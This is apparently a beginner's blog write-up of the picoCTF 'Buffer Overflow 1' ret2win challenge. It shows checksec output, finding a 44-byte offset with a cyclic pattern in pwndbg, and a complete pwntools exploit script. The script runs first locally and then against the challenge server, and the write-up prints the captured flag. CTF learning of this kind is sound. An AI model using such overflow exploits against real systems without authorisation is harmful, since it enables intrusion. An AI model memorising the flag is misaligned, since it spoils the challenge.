# Day 26: picoCTF Buffer Overflow 1 Writeup

Today is the second day of me getting humbled by pwn, and this time we are dealing with another buffer overflow challenge from picoCTF.



The challenge description was short but very direct:

```text
Control the return address
```

Now we are cooking.

The challenge also said:

> You can overflow the buffer and return to the flag function in the program.

It gave us the binary file, the source code, and a remote netcat connection:

```bash
nc saturn.picoctf.net PORT
```

The port changes depending on the running instance, so I just used whatever picoCTF gave me at that moment.

When I connected to the remote server, the program asked:

```text
Please enter your string:
```

Since yesterday’s pwn knowledge was still fresh in my mythical brain, I started with the most advanced payload known to mankind.

A bunch of `A`s.



That did not give me the flag, but it gave me something more useful:

```text
Okay, time to return... Fingers Crossed... Jumping to 0x41414141
```

At first, this looked like random hacker nonsense, but then I remembered that `A` in hex is `0x41`.

So `0x41414141` is basically:

```text
AAAA
```

That meant my input had reached the return address.

That was a big deal. The program was trying to return to an address, but instead of a real address, it was trying to jump to my `A`s.

So I was not just crashing the binary anymore. I was touching the place that controls where the program goes next.

After that, I moved to the files I downloaded for the challenge. First, I checked the binary named `vuln` using the `file` command:

```bash
file vuln
```



It showed that the file was an:

```text
ELF 32-bit LSB executable
```

In human language, this means a few things.

`ELF` means it is a Linux executable file.  
`32-bit` means the binary uses 32-bit addresses, so the return address will be 4 bytes long.  
`LSB` means little-endian, which means addresses are stored backwards in memory.

That little-endian part becomes important later because I cannot just write an address normally into the payload. I need to pack it properly.

Then I checked the binary protections using:

```bash
pwn checksec vuln
```



This gave me a few important details:

```text
i386-32-little
No canary found
No PIE
Stack Executable
Stripped: No
```

For my beginner brain, I understood it like this:

`No Canary` means the binary does not have stack-smashing protection. So if I overflow the buffer, there is no canary value stopping me before the function returns. That makes the overflow easier to work with.

`No PIE` means the program addresses stay fixed. So if I find the address of `win()`, it should not keep changing every time I run the binary. That is very helpful for this challenge.

`Stack Executable` means the stack can run code. That sounds interesting, but for this challenge I do not really need it because I am not injecting shellcode. I am just redirecting the program to a function that already exists.

`Stripped: No` means the function names are still inside the binary. So finding functions like `main`, `vuln`, and `win` becomes much easier.

The most useful parts for this challenge were `No PIE` and `Stripped: No`.

Since the addresses were fixed and the function names were still available, I knew I should be able to find the address of the flag function without too much pain.

The program already showed me that my input reached the return address. So now I needed two things:

```text
1. The address of win()
2. The exact number of bytes needed to reach the return address
```

Since the binary was not stripped, I opened it with pwndbg:

```bash
pwndbg ./vuln
```

Inside pwndbg, I listed the functions:

```gdb
info functions
```



This showed functions like:

```text
main
vuln
win
```

Seeing `win` was the important part.

The challenge description said we had to return to the flag function, and here the binary already had a function named `win`. So this was clearly a ret2win challenge.

We do not need shellcode.  
We do not need to spawn a shell.  
We just need to make the program return into a function that already exists.

To get the address of `win`, I used:

```gdb
p win
```

This also works:

```gdb
disassemble win
```



This gave me the address of the function:

```text
0x080491f6 <win>
```

The exact address depends on the binary, so I used the one shown in my terminal.

Now I had the destination.

But I still needed the distance.

I already knew that my `A`s reached the return address, but I did not know exactly how many bytes it took. I could have sat there doing caveman mathematics with different amounts of `A`s, but pwntools has a cleaner way to do this.

So I used a cyclic pattern.

A cyclic pattern creates a long unique pattern. When the program crashes, the value inside `EIP` can be matched back to the exact position in the pattern.

I generated a pattern with:

```bash
pwn cyclic 100 > pattern.txt
```

Then I ran the program inside pwndbg and gave it the pattern as input:

```gdb
run < pattern.txt
```

The program crashed again, but this time it did not crash with boring `0x41414141`.

It crashed with this value in `EIP`:



```text
EIP  0x6161616c
```

This value is not random. It is part of the cyclic pattern.

So I asked pwntools where that value appeared:

```bash
pwn cyclic -l 0x6161616c
```



It returned:

```text
44
```

So now I had the magic number:

```text
44 bytes = distance from the start of my input to the return address
```

But I did not want to trust the tool blindly, so I tested it manually.

I made a small test payload:

```bash
python3 -c 'print("A"*44 + "BBBB")' > test.txt
```

Then I ran the program again inside pwndbg:

```gdb
run < test.txt
```



This time, `EIP` became:

```text
0x42424242
```

And that made perfect sense because `B` in hex is `0x42`.

So this confirmed it.

After 44 bytes, the next 4 bytes overwrite `EIP`.

This was the moment where the challenge clicked properly. I was not just overflowing the buffer anymore. I was controlling the return address.

The structure looked like this:

```text
"A" * 44     -> padding to reach EIP
"BBBB"       -> value that overwrites EIP
```

But instead of putting `BBBB`, I needed to put the address of `win()`.

Since this is a 32-bit little-endian binary, I cannot write the address normally. I need to pack it properly using `p32()` from pwntools.

So the final payload idea became:

```python
payload = b"A" * 44 + p32(win)
```

Where `win` is the address of the `win()` function.

Now that I had both the offset and the destination address, the next step was turning this into an actual exploit script instead of manually typing cursed keyboard spam every time.

Before sending anything to the remote server, I wanted to test it locally first.

The reason is that the `win()` function reads from a file called `flag.txt`. So if I run the binary on my own machine and there is no `flag.txt`, the exploit might still work, but I will not see anything useful.

So I created a fake flag file:

```bash
echo "picoCTF{test_flag}" > flag.txt
```

This is not the real flag. It is just there so that if my exploit works locally, I can see proof that the program successfully reached the `win()` function.

Then I created a Python script:

```bash
nano exploit.py
```

The exploit looked like this:

```python
from pwn import *

elf = ELF("./vuln")
context.binary = elf

offset = 44
win = elf.symbols["win"]

payload = b"A" * offset
payload += p32(win)

p = process("./vuln")
p.sendline(payload)
p.interactive()
```

At first, this looked like magic Python nonsense, so I broke it down.

```python
elf = ELF("./vuln")
```

This tells pwntools to load the binary and understand its symbols.

```python
win = elf.symbols["win"]
```

Since the binary was not stripped, pwntools can find the address of the `win()` function by name. So I do not have to hardcode the address manually.

```python
payload = b"A" * offset
```

This creates 44 bytes of padding, just enough to reach the return address.

```python
payload += p32(win)
```

This adds the address of `win()` after the padding. Since the binary is 32-bit and little-endian, `p32()` packs the address in the correct byte order.

So the whole payload is basically:

```text
44 bytes of junk + address of win()
```

After saving the script, I ran it:

```bash
python3 exploit.py
```



Seeing the fake flag print locally meant the exploit worked.

The program was no longer returning normally. It was returning into `win()`.

At this point, the logic was already solved. The only thing left was to send the same payload to the picoCTF remote server instead of running the local binary.

So I changed this line:

```python
p = process("./vuln")
```

To this:

```python
p = remote("saturn.picoctf.net", 65057)
```

The port here was the one my running picoCTF instance gave me. If your instance gives a different port, use that instead.

The final remote exploit became:

```python
from pwn import *

elf = ELF("./vuln")
context.binary = elf

offset = 44
win = elf.symbols["win"]

payload = b"A" * offset
payload += p32(win)

p = remote("saturn.picoctf.net", 65057)
p.sendline(payload)
p.interactive()
```

Then I ran it again:

```bash
python3 exploit.py
```

This time, instead of reading my fake local `flag.txt`, the program ran on picoCTF’s server and read their real flag file.



And finally, the binary gave me the flag:

```text
picoCTF{addr3ss3s_ar3_3asy_5c6baa9e}
```

So the whole challenge came down to this:

```text
Find the offset -> find win() -> overwrite return address with win()
```

Yesterday, I was mostly throwing `A`s at the program and hoping something exploded.

Today, the explosion had structure.

This challenge made buffer overflows feel less like random crashing and more like controlled direction. Once I saw `0x41414141`, found the `win()` function, confirmed the 44-byte offset, and packed the address properly, the rest became clean.

Still pwn suffering, but at least now I know where the suffering is going.

